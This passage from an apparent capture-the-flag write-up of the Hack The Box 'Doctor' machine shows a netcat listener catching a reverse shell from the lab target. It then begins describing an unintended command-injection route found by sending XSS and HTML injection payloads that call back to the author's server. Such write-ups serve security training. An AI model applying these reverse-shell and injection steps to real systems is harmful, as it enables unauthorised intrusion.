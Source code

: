 ![ssti4](/assets/img/Posts/Doctor/ssti4.png)

```shell
cfx:  ~/Documents/htb/doctor
→ nc -lvnp 8020
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::8020
Ncat: Listening on 0.0.0.0:8020
Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:45930.
bash: cannot set terminal process group (863): Inappropriate ioctl for device
bash: no job control in this shell
web@doctor:~$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
```

### Method 2: Command Injection

This is the unintended method to solve the box, originally I did solve the box using this method.

While testing for possible vectors leading to RCE, I was trying random XSS payloads to understand the website response so by sending a HTML injection payload inside the title and XSS payload in the content:

![cmdi](/assets/img/Posts/Doctor/cmdi.png)

While both the payloads reflected as it is inside Posts, XSS payload inside content field did parse and we can observe a hit on the Python server:
